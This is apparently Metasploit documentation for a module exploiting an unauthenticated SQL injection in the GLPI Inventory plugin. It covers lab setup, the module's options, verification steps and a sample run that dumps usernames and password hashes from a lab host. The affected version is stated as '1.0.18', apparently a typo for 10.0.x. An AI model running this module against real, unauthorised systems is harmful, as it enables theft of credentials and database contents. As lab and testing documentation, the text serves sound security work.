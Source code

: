 ## Vulnerable Application
GLPI <= 1.0.18 fails to properly sanitize user supplied data when sent inside a `SimpleXMLElement`
(available to unauthenticated users), prior to using it in a dynamically constructed SQL query.
As a result, unauthenticated attackers can conduct an SQL injection attack to dump sensitive
data from the backend database such as usernames and password hashes.

In order for GLPI to be exploitable the GLPI Inventory plugin must be installed and enabled, and the "Enable Inventory"
radio button inside the administration configuration also must be checked.

### Setup on Ubuntu 22.04

Install PHP dependencies:
```
sudo add-apt-repository ppa:ondrej/php
sudo apt install apache2 php8.3 php8.3-curl php8.3-zip php8.3-gd php8.3-intl \
 php8.3-intl php-pear php8.3-imagick php-bz2 php8.3-imap php-memcache php8.3-pspell   \
 php8.3-tidy php8.3-xmlrpc php8.3-xsl php8.3-mbstring php8.3-ldap php-cas php-apcu    \
 libapache2-mod-php8.3 php8.3-mysql mariadb-server
```

Ensure mariadb and apache are installed and running:
```
sudo systemctl status apache2
sudo systemctl status mariadb
```

Run the mysql secure installation script, input defaults and your desired username password:
```
sudo mysql_secure_installation
```

Connect to the database:
```
sudo mysql -u root -p
```

Create a database user `msfuser` and a database named `glpi`:
```
CREATE USER 'msfuser'@'localhost' IDENTIFIED BY 'notpassword';
CREATE DATABASE glpi;
GRANT ALL PRIVILEGES ON glpi.* TO 'msfuser'@'localhost';
FLUSH PRIVILEGES;
EXIT;
```

Download the vulnerable version of GLPI, extract it and move it to `/var/www/html`:
```
wget https://github.com/glpi-project/glpi/releases/download/10.0.17/glpi-10.0.17.tgz
tar -xvf glpi-10.0.17.tgz
sudo mv glpi /var/www/html/
```

Download the vulnerable inventory plugin:
```
cd /var/www/html/glpi/plugins
sudo wget https://github.com/glpi-project/glpi-inventory-plugin/releases/download/1.4.0/glpi-glpiinventory-1.4.0.tar.bz2
sudo tar -xvjf glpi-glpiinventory-1.4.0.tar.bz2
```

Set the necessary permissions:
```
sudo chmod 755 -R /var/www/html/
sudo chown www-data:www-data -R /var/www/html/
```

Edit sites-available:
```
sudo vim /etc/apache2/sites-available/glpi.conf
```

Paste:
```
<VirtualHost *:80>
   ServerAdmin admin@your_domain.com
   DocumentRoot /var/www/html/glpi
   ServerName your-domain.com

   <Directory /var/www/html/glpi>
        Options FollowSymlinks
        AllowOverride All
        Require all granted
   </Directory>

   ErrorLog ${APACHE_LOG_DIR}/your-domain.com_error.log
   CustomLog ${APACHE_LOG_DIR}/your-domain.com_access.log combined

</VirtualHost>
```

Create the following symlink, rewrite and restart:
```
sudo ln -s /etc/apache2/sites-available/glpi.conf /etc/apache2/sites-enabled/glpi.conf
sudo a2enmod rewrite
sudo systemctl restart apache2
```

The application should be now available at `http://127.0.0.1/glpi`, navigate there in a browser to complete the setup wizard.
Warnings in the `Checking of the compatibility of your environment with the execution of GLPI` can be ignored, click continue.
It will ask you for the database credentials created above, input them and select the `glpi` database created above.

Once complete you'll be brought to a login page, authenticate using the default credentials `glpi`/`glpi`.

On the left hand side select and expand `Administration` in the dropdown select `Inventory`.
On the right hand side select `Enable Inventory`, then `Save` at the bottom.

On the left hand side select and expand `Setup` in the dropdown select `Plugins`.
Near the bottom of the screen find the `GLPI Inventory` plugin and under `Actions` click the install button (Folder icon with `+` symbol).
After installing the plugin a pop up will appear in the bottom right and ask if you want to enable the plugin, enable it.

Now the application should be vulnerable.

## Options

### DB_COLUMNS
The number of columns in the database. Can vary between versions, adjust this if exploit does not work initially.

### MAX_ENTRIES
The maximum  number of entries to dump from the database. More entries will increase module runtime.

## Verification Steps

1. Start msfconsole.
1. Do: `use gather/glpi_inventory_plugin_unauth_sqli`.
1. Set the `RHOST`.
1. Set `MAX_ENTRIES` to `1` to speed up module run time for verification.
1. Run the module.
1. Receive a table with one username and it's corresponding password hash.

## Scenarios
### GLPI 10.0.17 running on Ubuntu 22.04
```
msf6 > use gather/glpi_inventory_plugin_unauth_sqli
msf6 auxiliary(gather/glpi_inventory_plugin_unauth_sqli) > set rhost 172.16.199.130
rhost => 172.16.199.130
msf6 auxiliary(gather/glpi_inventory_plugin_unauth_sqli) > exploit 
[*] Reloading module...
[*] Running module against 172.16.199.130
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Extracting credential information
glpi_users
==========

 name                   password
 ----                   --------
 Plugin_GLPI_Inventory  39
 glpi                   $2y$10$ci01zoEXHWOfoxietd8ry.2K6Y3wR5bc1dZQiftuFM5hqQtPgD6LS
 glpi-system
 normal                 $2y$10$iaxy0646EhwsuBbjAgme4uJN6SN.pbyK.ciTCnep67Wq8x.qt1JvS
 post-only              $2y$10$//Ca44JjRIV/9Hv1IEM1y.v1aEa3FwzytX4QYtKsxyqF/rnOzROei
 tech                   $2y$10$KjaOxGSyd0CMifvDVNiggOxCVHP0g8jER/jLtZsmF54S63LH5GWIy

[*] Auxiliary module execution completed
```
